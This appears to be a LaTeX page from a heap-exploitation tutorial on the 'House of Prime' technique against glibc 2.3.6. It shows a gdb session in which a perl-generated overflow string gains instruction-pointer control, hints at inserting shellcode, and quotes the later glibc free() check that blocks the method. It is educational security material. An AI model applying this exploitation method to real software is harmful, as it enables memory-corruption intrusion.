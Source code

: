 \documentclass[12pt]{article}
\begin{document}
We are really close to EBP and EIP. What happens if our "name" is
composed by a few letters "A"?

\begin{verbnobox}[\small]
(gdb) run Black `perl -e 'print "A"x64'` 1032 < file
.....
ptr found at [ 0x80b2a20 ]
ptr1ovf found at [ 0x80b2e28 ]
ptr2ovf found at [ 0x80b3230 ]
Escriba una descripcion:
END free(1)

END free(2)

Breakpoint 2, 0x080482d9 in fvuln ()
(gdb) c
Continuing.

END malloc()

Breakpoint 3, 0x08048307 in fvuln ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb)
\end{verbnobox}
	
Bingo! I think that you can put your own Shellcode, right?
\newline


Actually, addresses require manual adjustments, but that is trivial when
you know write "gdb" in your shell.
\newline


At first, this technique is only applicable to version 2.3.6 of GLIBC.
Later was added in the "free()" function an integrity check like this:

\begin{lstlisting}[language=C]
  /* We know that each chunk is at least MINSIZE bytes in size. */
  if (__builtin_expect (size < MINSIZE, 0))
    {
      errstr = "free(): invalid size";
      goto errout;
    }

  check_inuse_chunk(av, p);
\end{lstlisting}

	
Which does not allow us to establish a smaller size than "16".
\newline


In honor to the first house developed and built by Phantasmal we have
shown that it is possible to arrive alive at The House of Prime.

\begin{verbnobox}[\small]

                       << La tecnica no solo es una
                          modificacion, es poder sobre
                          las cosas. >>

                                     [ Xavier Zubiri ]

\end{verbnobox}
\end{document}
